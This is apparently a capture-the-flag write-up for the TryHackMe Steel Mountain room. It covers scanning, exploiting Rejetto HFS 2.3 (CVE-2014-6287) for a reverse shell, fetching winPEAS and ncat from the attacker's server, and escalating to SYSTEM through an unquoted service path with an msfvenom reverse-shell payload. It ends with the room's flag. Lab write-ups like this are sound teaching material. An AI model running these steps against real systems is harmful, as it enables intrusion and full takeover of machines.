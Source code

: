 Room: https://tryhackme.com/room/steelmountain  

**sudo** nmap -sV -sS -T5 -vv xx.xx.xx.xx

```
PORT      STATE SERVICE            REASON          VERSION
80/tcp    open  http               syn-ack ttl 127 Microsoft IIS httpd 8.5
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
8080/tcp  open  http               syn-ack ttl 127 HttpFileServer httpd 2.3
49152/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

On http://machineip:8080 we can find a file server running - Rejetto HTTP File Server2.3. 

**searchsploit** -w hfs 2.3
```
----------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                         |  URL
----------------------------------------------------------------------- --------------------------------------------
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)            | https://www.exploit-db.com/exploits/49584
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)            | https://www.exploit-db.com/exploits/48569
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload         | https://www.exploit-db.com/exploits/30850
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)    | https://www.exploit-db.com/exploits/34668
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)    | https://www.exploit-db.com/exploits/39161
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Executi | https://www.exploit-db.com/exploits/34852
----------------------------------------------------------------------- --------------------------------------------

```

The CVE for this exploit is 2014-6287 and allows us RCE. We'll use the RCE(2) exploit.  

Download, edit the script and add: 
* Your attacking machine IP.
* A desired port.

Download ncat static binary for windows from [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)
Create a HTTP server in the same folder as **nc.exe**.
> python -m SimpleHTTPServer 80

Then, start a netcat listener on the same port you set in the exploit.  
> nc -nvlp [port]  

We need to run the exploit twice.  
After the first run, it gets the netcat static binary via the HTTP server.  
```
Serving HTTP on 0.0.0.0 port 80 ...
xx.xx.xx.xx - - [09/Oct/2021 22:58:18] "GET /nc.exe HTTP/1.1" 200 -
xx.xx.xx.xx - - [09/Oct/2021 22:58:19] "GET /nc.exe HTTP/1.1" 200 -
xx.xx.xx.xx - - [09/Oct/2021 22:58:19] "GET /nc.exe HTTP/1.1" 200 -
xx.xx.xx.xx - - [09/Oct/2021 22:58:20] "GET /nc.exe HTTP/1.1" 200 -
```

After the second run, the binary gets called and we get a reverse shell on our netcat listener.   
```
connect to [xx.x.x.xxx] from (UNKNOWN) [xx.xx.xx.xx] 49177
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>

```
After we get our reverse shell, we can get a script to check for windows vulnerabilities instead of looking for them manually.  
Download winPEAS and place it in the same folder with the HTTP server.  

From the reverse shell we got earlier, use ```powershell -c wget "http://attackingMachineIP/winPEASx86.exe" -outfile "winpeas.exe"```  

After we run it, we see something that can be easily abused.  
```
���������͹ Interesting Services -non Microsoft-
� Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
    AdvancedSystemCareService9(IObit - Advanced SystemCare Service 9)[C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe] - Auto - Running - No quotes and Space detected
    File Permissions: bill [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\IObit\Advanced SystemCare (bill [WriteData/CreateFiles])
    Advanced SystemCare Service
   =================================================================================================
```

**cd** C:\Program Files (x86)\IObit\Advanced SystemCare

We need to see if the process can be started/stopped and if we have permissions to do that.  

First, go back one one directory and run  

sc sq AdvancedSystemCareService9
```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        LOAD_ORDER_GROUP   : System Reserved
        TAG                : 1
        DISPLAY_NAME       : Advanced SystemCare Service 9
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

icacls "Advanced SystemCare"
```
Advanced SystemCare STEELMOUNTAIN\bill:(I)(OI)(CI)(RX,W)
                    NT SERVICE\TrustedInstaller:(I)(F)
                    ...................................
```
The (RX,W) is what matters -- It means we have acces to write, read and execute.  


Let's create a payload using **msfvenom** from the **attacking machine**.  
**msfvenom** -p windows/shell_reverse_tcp LHOST=attackingMachineIP LPORT=1111 -f exe -o Advanced.exe

Now, transfer the payload to C:\Program Files (x86)\IObit   
Start another listener on the attacking machine on the same port as the payload.  

On the target machine, run the following two commands:   
**sc** stop AdvancedSystemCareService9  
**sc** start AdvancedSystemCareService9   

We should get a remote shell on the second listener with administrator privileges.  
```
connect to [xx.x.x.xxx] from (UNKNOWN) [xx.xx.xx.xx] 49263
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

The flag is located on C:\Users\Administrator\Desktop.  
> 9af5f314f57607c00fd09803a587db80

## 

**Note**: There's another way in, using metasploit but that way is easier, more guided & well explained in the room, so no point in covering that.  

